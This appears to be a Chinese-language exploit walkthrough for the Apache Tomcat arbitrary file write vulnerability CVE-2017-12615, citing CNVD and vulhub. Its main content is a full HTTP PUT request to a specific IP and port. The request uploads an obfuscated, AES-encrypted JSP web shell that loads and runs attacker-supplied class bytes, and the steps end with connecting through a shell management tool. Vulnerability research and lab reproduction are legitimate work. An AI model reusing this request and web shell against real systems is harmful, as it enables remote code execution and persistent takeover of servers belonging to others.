




# Tomcat 任意写入文件漏洞（CVE-2017-12615）by [M2ayill](https://github.com/M2ayill)

## 一、漏洞描述

Apache Tomcat 7.0.0到7.0.79版本中存在远程代码执行漏洞，当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法时，攻击者可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件，文件中的代码被服务器执行。

## 二、影响版本

 Apache Tomcat >=7.0.0，<=7.0.79

## 三、利用流程

1 此漏洞对应的名称为 Tomcat 任意写入文件漏洞 (CVE-2017-12615)
2 访问其如图所示


3 直接抓包，修改请求方式为 PUT，并且设置文件名为1.jsp(名字随意)，然后填充 shell(jsp shell即可)文件内容，发送成功后，服务器返回状态码201



```
PUT /1.jsp/ HTTP/1.1
Host: 118.193.36.37:29618
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 611

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter("pass")!=null){String k=(""+UUID.randomUUID()).replace("-","").substring(16);session.putValue("u",k);out.print(k);return;}Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec((session.getValue("u")+"").getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);%>
```

4 访问1.jsp,存在



5 使用 shell 管理工具连接即可



## 参考

https://www.cnvd.org.cn/flaw/show/CNVD-2017-27472

https://vulhub.org/#/environments/tomcat/CVE-2017-12615/
